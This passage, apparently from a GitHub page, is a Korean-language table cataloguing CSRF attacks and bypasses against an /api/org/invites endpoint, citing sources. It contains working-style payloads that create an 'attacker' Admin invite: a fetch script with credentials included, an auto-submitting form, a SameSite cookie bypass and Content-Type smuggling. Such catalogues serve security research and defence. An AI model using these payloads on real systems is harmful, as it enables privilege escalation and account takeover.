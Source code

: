         <pre><code>&lt;script&gt;
  fetch("/api/org/invites", {
    method: "POST",
    mode: "no-cors",
    credentials: "include",
    body: JSON.stringify({ name: "attacker", role: "Admin" })
  });
&lt;/script&gt;</code></pre>
      </td>
      <td>Same-Site 환경에서 no-cors, include 옵션을 사용해 /api/org/invites에 POST 요청을 보내 CSRF 보호를 우회한다. 정상 서브도메인 내 XSS 취약점을 통해 악성 스크립트를 주입한다.</td>
      <td>[1], [2]</td>
    </tr>
    <tr>
      <td>Auto-Submitting HTML Form</td>
      <td>
        <pre><code>&lt;form action="http://localhost:3000/api/org/invites" method="POST"&gt;
  &lt;input name="name" value="attacker"&gt;
  &lt;input name="loginOrEmail" value="attacker@example.com"&gt;
  &lt;input name="role" value="Admin"&gt;
  &lt;input name="sendEmail" value="false"&gt;
&lt;/form&gt;</code></pre>
      </td>
      <td>Same-Site 컨텍스트에서 폼 자동 제출 스크립트와 함께 실행할 경우 피해자의 인증 쿠키가 첨부된 채 CSRF 공격이 수행된다. 공격자의 페이지에 자동 제출되는 폼을 삽입·호스팅한다. 피해자의 브라우저는 자신의 쿠키를 포함해 해당 엔드포인트로 POST 요청을 수행한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Bypass

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SameSite Cookie Bypass</td>
      <td>
        <pre><code>fetch("/api/org/invites", {
  method: "POST",
  mode: "no-cors",
  credentials: "include"
  ...
});</code></pre>
      </td>
      <td>동일 사이트 컨텍스트(예: 서브도메인)에서 요청하면 브라우저가 이를 1st-party 요청으로 처리하여 Strict/Lax 쿠키까지 모두 첨부한다. SameSite 속성이 Cross-Site 요청만 차단함을 악용하여, CSRF 보호를 우회한다.</td>
      <td>[1], [2]</td>
    </tr>
    <tr>
      <td>Content-Type Smuggling</td>
      <td>
        <pre><code>fetch("/api/org/invites", {
  ...
  headers: { "Content-Type": "text/plain;application/json" },
  body: JSON.stringify({ name: "attacker", … })
});</code></pre>